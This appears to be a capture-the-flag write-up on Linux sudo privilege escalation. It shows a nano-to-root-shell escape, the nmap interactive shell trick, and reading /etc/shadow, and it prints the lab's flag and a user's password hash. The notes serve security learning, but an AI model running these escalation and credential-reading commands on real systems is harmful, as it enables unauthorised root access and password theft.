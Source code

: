 ## Privilege Escalation SUDO Solution

### Notes: 
- A user may be given sudo privileges for specific applictions.
- Can use these programs to execute sudo commands
- Refer to [GTFO BINS](https://gtfobins.github.io/) for reference.
- Also check LD_PRELOAD exploit. 


### How many programs can the user "karen" run on the target system with sudo rights?

1. Execute `sudo -l`
   
![Screenshot 2024-02-11 at 11 15 17 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a3b1bfe-f69c-4db1-88de-cba61b76d9ea)

**Answer:3**

## What is the content of the flag2.txt file?

1. Let's go to [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo).
   Based on the previous question above we have a sudo exploit for nano. [https://gtfobins.github.io/gtfobins/nano/#sudo](https://gtfobins.github.io/gtfobins/nano/#sudo)
   ```bash
   sudo nano
   ```
   The inside the nano editor execute the following:
   ```
   ^R^X
   reset; sh 1>&0 2>&0
   ```
   ![Screenshot 2024-02-11 at 11 20 48 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2c17f326-2f34-44cb-899d-216da2d57b45)

2. We will have a terminal with root access within nano.
![Screenshot 2024-02-11 at 11 23 01 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f7941a3e-b4c9-475b-b4e8-a4e92ceec0e0)

**Answer: THM-402028394** 

## How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

1. Again go to [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo), and lookup nmap.

**Answer: sudo nmap --interactive**
![Screenshot 2024-02-11 at 11 26 31 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2e1d008b-a543-4af3-9b55-45981cfa4200)


## What is the hash of frank's password?

1. Execute the following command and look for frank's password hash. (still using the terminal inside nano).

```bash
cat /etc/shadow
```
![Screenshot 2024-02-11 at 11 31 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/eba5855f-fe5d-49d1-92a6-af04188fc6c1)


**Answer: $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1**
